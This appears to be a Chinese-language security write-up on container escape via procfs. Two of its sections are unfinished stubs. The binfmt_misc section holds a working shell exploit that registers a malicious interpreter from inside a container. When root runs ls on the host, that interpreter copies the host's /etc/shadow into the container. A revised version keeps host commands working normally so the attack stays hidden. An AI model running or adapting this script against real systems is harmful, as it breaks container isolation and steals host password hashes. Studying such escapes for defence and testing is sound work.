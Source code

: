 ## 利用procfs相关逃逸方式原理

### 什么是procfs

procfs全称proc filesystem，比较简单的说就是将内核中保存的进程数据，以目录结构的形式进行展示，在系统启动阶段会被挂载到/proc目录，除进程数据外/proc目录也包含了一部分非进程数据如/proc/crypto、/proc/devices等，其中大部分目录都是数据接口，其中/proc/sys目录下包含了动态可配置的内核选项，可以通过修改/proc/sys目录下文件对内核进行动态配置。

对procfs的详细介绍可以参考：https://en.wikipedia.org/wiki/Procfs

利用procfs进行容器逃逸使用到的内核相关特性都在/proc/sys下，可以参考：https://www.kernel.org/doc/html/v5.7/admin-guide/sysctl/ 确定每个文件对应的功能和使用方式

除了procfs外在linux 2.6版本后将大量非进程相关的系统信息移动到一个专门的伪文件系统称为sysfs挂载在/sys目录下，另外一部分逃逸方式方式是通过sysfs完成的，这部分另外一篇文章进行介绍

### 利用/proc/sys/kernel/modprobe

todo

### 利用/proc/sys/kernel/core_pattern

todo

### 利用/proc/sys/fs/binfmt_misc

#### 什么是binfmt_misc

系统中存储着各种类型的程序，内核在执行时并不清楚那种程序需要使用什么解析器，为了能够让内核可以对大部分程序进行解析，提供了binfmt_misc特性，用户可以通过操作binfmt_misc的register文件告知内核某一类程序需要使用哪个解析器去执行

binfmt_misc的使用方式网上很多文章都有说明，可以参考进行测试：https://www.kernel.org/doc/html/latest/admin-guide/binfmt-misc.html

#### 逃逸原理

在容器中向内核注册一个新的文件类型和对应的解析器，指定文件魔术字符或文件后缀和对应的解析器，在解析器代码中写入恶意代码，当这类文件在宿主机上被执行时，内核就会调用攻击者注册的解析器进而完成恶意代码的执行

#### 公开的EXP

脚本参考[kcon Container escape in 2021中给出的POC](https://github.com/knownsec/KCon/blob/master/2021/Container%20escape%20in%202021.pdf)修改

选择宿主机ls文件的offset和magic，除去ELF文件头的位置，任意选择一段offset和magic对应即可

![](media/16423261310936/16446791173003.jpg)

测试代码如下：`container.sh`
```shell
mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "#!/bin/bash" > /tmp/handler.sh
echo "" >> /tmp/handler.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
chmod +x /tmp/handler.sh
echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
```
容器中执行
```shell
chmod +x container.sh
./container.sh
```

宿主机中执行
```shell
# run by root
ls
```
执行成功后容器根目录会写入宿主机shadow文件，利用效果如下
![](media/16423261310936/16446794828562.jpg)

#### 上述EXP在实际场景中存在的问题

1. 如何知道宿主机中被执行的二进制文件的offset和magic，同一个命令在宿主机和容器中可能并不相同

   在Container escape in 2021中给出了替换#!/bin/sh的方法，这种方法可以确保offset和magic一定是正确的，但因为#!/bin/sh文件的解释器被指定到了容器内的一个文件，宿主机普通用户执行sh文件时没有对容器路径下这个文件的访问权限造成执行失败，出现`bad interpreter: Permission denied`错误
    
   这快目前还没想好怎么搞，一方面是确保设置的offset和magic是正确的，另外一方面是如何让触发的面更大，或者宿主机可以自动触发，有搞定这个问题的师傅可以说下思路学习一下
        
2. 完成binfmt_misc修改之后宿主机上原本的命令执行会出现问题，无法正常使用
   
   增加binfmt_misc之后宿主机正常二进制文件无法执行的原因是新注册的解释器并没有对二进制文件进行执行，只是完成了漏洞利用的逻辑，在centos中（本文仅对contos进行了测试，其他linux发行版没有进行测试），系统通过`/lib64/ld-linux-x86-64.so.2`执行二进制文件，通过file命令也可以验证二进制文件的解释器如下图
   
    ![](media/16423261310936/16446818691650.jpg)
    所以解决这个问题的方式就比较简单了，修改container.sh内容为如下：
    
    ```shell
    mkdir /tmp/binfmt_misc && mount binfmt_misc -t binfmt_misc /tmp/binfmt_misc
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
    echo "#!/bin/bash" > /tmp/handler.sh
    echo "" >> /tmp/handler.sh
    echo "cat /etc/shadow > $host_path/shadow" >> /tmp/handler.sh
    # add this
    echo "/lib64/ld-linux-x86-64.so.2 /usr/bin/ls" >> /tmp/handler.sh
    chmod +x /tmp/handler.sh
    echo ":exp:M:240:\x70\xff\x01\x00::$host_path/tmp/handler.sh:" > /tmp/binfmt_misc/register
    ```
    ![](media/16423261310936/16446822121742.jpg)
    命令正常被执行
